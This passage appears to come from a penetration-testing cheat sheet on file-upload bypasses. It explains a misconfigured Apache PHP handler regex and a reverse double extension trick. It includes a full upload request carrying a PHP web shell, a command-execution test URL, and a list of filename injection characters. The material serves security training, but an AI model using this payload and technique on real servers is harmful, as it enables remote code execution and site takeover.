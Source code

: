 **Apache PHP Configuration (\`/etc/apache2/mods-enabled/php7.4.conf\`):**
```xml
<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>
```

**⚠️ Vulnerability:** Missing \`$\` at the end allows any file **containing** PHP extensions to execute.

### Reverse Double Extension Attack

**Technique:** Use \`shell.php.jpg\` to:
1. **Pass strict whitelist** - ends with \`.jpg\`
2. **Execute as PHP** - contains \`.php\` in filename

**Implementation:**
```bash
# Filename: shell.php.jpg
# Whitelist check: PASS (ends with .jpg)
# PHP execution: SUCCESS (contains .php)
```

**Burp Suite Request:**
```http
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=--boundary

------boundary
Content-Disposition: form-data; name="uploadFile"; filename="shell.php.jpg"
Content-Type: image/jpeg

<?php system($_REQUEST['cmd']); ?>
------boundary--
```

**Testing Execution:**
```bash
# Access: http://SERVER_IP:PORT/profile_images/shell.php.jpg?cmd=id
# Expected: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## Character Injection

> **💉 Advanced Bypass:** Inject special characters to manipulate filename interpretation

### Character Injection Techniques

**Injectable Characters:**
- \`%20\` - Space character
- \`%0a\` - Line Feed (LF)
- \`%00\` - Null byte (PHP ≤ 5.X)
- \`%0d0a\` - Carriage Return + Line Feed (CRLF)
- \`/\` - Forward slash
- \`.\\\` - Backslash with dot
- \`.\` - Dot
- \`…\` - Horizontal ellipsis
- \`:\` - Colon (Windows)
